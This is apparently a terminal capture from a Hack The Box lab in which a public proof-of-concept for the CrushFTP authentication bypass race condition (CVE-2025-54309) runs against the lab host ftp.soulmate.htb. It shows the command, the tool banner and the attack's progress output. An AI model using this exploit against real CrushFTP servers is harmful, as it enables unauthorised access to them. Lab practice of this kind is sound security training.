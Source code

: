 ```bash
└─$ python3 watchTowr-vs-CrushFTP-CVE-2025-54309.py http://ftp.soulmate.htb                        
/home/kali/HTB_Labs/Release_Arena_Machine/Soulmate/watchTowr-vs-CrushFTP-CVE-2025-54309.py:59: SyntaxWarning: invalid escape sequence '\c'
  "AS2-TO": "\crushadmin",
[*] Generated new c2f value: YuwM
                         __         ___  ___________                   
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|   
                                  \/          \/     \/                            
          
        watchTowr-vs-CrushFTP-CVE-2025-54309.py
        (*) CrushFTP Authentication Bypass Race Condition PoC
        
          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2025-54309]
        
[*] CRUSHFTP RACE CONDITION POC
[*] TARGET: http://ftp.soulmate.htb
[*] ENDPOINT: CrushFTP WebInterface getUserList
[*] ATTACK: 5000 requests with new c2f every 50 requests
============================================================
Starting race with 5000 request pairs...
============================================================
[*] Generated new c2f value: UtmL
[*] NEW SESSION: c2f=UtmL
[*] PROGRESS: 50/5000 request pairs completed...
[*] Generated new c2f value: Vy6w
[*] NEW SESSION: c2f=Vy6w
[*] PROGRESS: 100/5000 request pairs completed...
[*] Generated new c2f value: rujb
[*] NEW SESSION: c2f=rujb
[*] PROGRESS: 150/5000 request pairs completed...
[*] Generated new c2f value: SzDm
[*] NEW SESSION: c2f=SzDm
[*] PROGRESS: 200/5000 request pairs completed...
[*] Generated new c2f value: 3aCk
[*] NEW SESSION: c2f=3aCk
[*] PROGRESS: 250/5000 request pairs completed...
[*] Generated new c2f value: abom
[*] NEW SESSION: c2f=abom
[*] PROGRESS: 300/5000 request pairs completed...
[*] Generated new c2f value: V1r0
[*] NEW SESSION: c2f=V1r0
[*] PROGRESS: 350/5000 request pairs completed...
[*] Generated new c2f value: Cyqd
[*] NEW SESSION: c2f=Cyqd
[*] PROGRESS: 400/5000 request pairs completed...
[*] Generated new c2f value: oOEc
[*] NEW SESSION: c2f=oOEc
[*] PROGRESS: 450/5000 request pairs completed...
[*] Generated new c2f value: K1mE
[*] NEW SESSION: c2f=K1mE
[*] PROGRESS: 500/5000 request pairs completed...
[*] Generated new c2f value: DP9l
[*] NEW SESSION: c2f=DP9l
[*] PROGRESS: 550/5000 request pairs completed...
[*] Generated new c2f value: GiZ8
[*] NEW SESSION: c2f=GiZ8
[*] PROGRESS: 600/5000 request pairs completed...
[*] Generated new c2f value: tgjC
```